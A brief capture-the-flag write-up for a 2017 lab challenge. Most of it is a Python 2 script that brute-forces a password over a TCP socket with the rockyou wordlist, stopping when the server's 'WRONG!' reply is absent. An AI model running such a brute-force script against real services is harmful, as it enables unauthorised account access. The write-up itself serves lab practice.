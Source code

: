 # Christmas Challenges - Secure Lab

Challenge proposed in: https://shellterlabs.com/en/questions/christmas-challenge-2017/secure-lab/  
In this challenge our work is discovery the system's password. I wrote the following script in python to make bruteforce attack using the rockyou as wordlist and socket module. It took about half an hour to find the password.


```python
import sys
import socket 

if len(sys.argv) < 4:
    print "Usage: python2.7", sys.argv[0], "<HOST> <PORT> <WORDLIST>"
else:
    HOST = str(sys.argv[1])
    PORT = int(sys.argv[2])
    WORDLIST = open(sys.argv[3]).readlines()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))
    
    s.send(WORDLIST[0])
    rec = s.recv(1024)

    for word in WORDLIST:
        s.send(word)
        rec = s.recv(1024)
        sys.stderr.writelines("\rPasswd : "+str(word).replace('\n','')+" -> "+str(rec).replace('\n',''))
        if "WRONG! Try Again!" not in rec:
            print "\n[+]Passwd Found : "+str(word)
            break
```

See more write-ups in: https://www.youtube.com/playlist?list=PLlq-hlhs91wqtRtIgQRxmqvgqTDZn6Qhu
